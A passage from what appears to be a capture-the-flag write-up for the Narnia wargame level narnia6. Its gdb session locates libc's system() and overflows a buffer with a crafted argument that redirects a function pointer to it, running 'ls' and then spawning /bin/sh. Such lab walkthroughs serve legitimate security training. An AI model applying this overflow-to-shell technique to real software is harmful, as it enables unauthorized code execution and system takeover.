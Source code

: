 ```
k4             0x0                 0
k5             0x0                 0
k6             0x0                 0
k7             0x0                 0
```

see `$eax` was overwritten by `0x43434343`

```
# show the where system() pointer address in mem
(gdb) p system
$1 = {int (const char *)} 0xf7dcd430 <__libc_system>

# Let's give this pointer as argument to overflow, it's hex use echo and also preprocess it
(gdb)  run  `echo -e "AAAAAAAA\x30\xd4\xdc\xf7" "BBBBBBBB"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia6 `echo -e "AAAAAAAA\x30\xd4\xdc\xf7" "BBBBBBBB"`
Download failed: Permission denied.  Continuing without separate debug info for system-supplied DSO at 0xf7fc7000.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x0804931f in main ()
(gdb) c
Continuing.
[Detaching after vfork from child process 3406718]
[Inferior 1 (process 3406708) exited with code 01]

# see child process has been created and detached so increase size , it might work
run  `echo -e "AAAAAAAA\x30\xd4\xdc\xf7" "BBBBBBBBC"`
sh: 1: C: not found

# instead c use shell cmds for verfication whether it's really working
run  `echo -e "AAAAAAAA\x30\xd4\xdc\xf7" "BBBBBBBBls"`
[Detaching after vfork from child process 3409451]
narnia0    narnia1    narnia2    narnia3    narnia4    narnia5    narnia6    narnia7    narnia8
narnia0.c  narnia1.c  narnia2.c  narnia3.c  narnia4.c  narnia5.c  narnia6.c  narnia7.c  narnia8.c
[Inferior 1 (process 3409441) exited with code 01]

(gdb) run  `echo -e "AAAAAAAA\x30\xd4\xdc\xf7" "BBBBBBBB/bin/sh"`
```

<img src="img/Pasted image 20240721144941.png" alt="Example Image" width="1080"/>
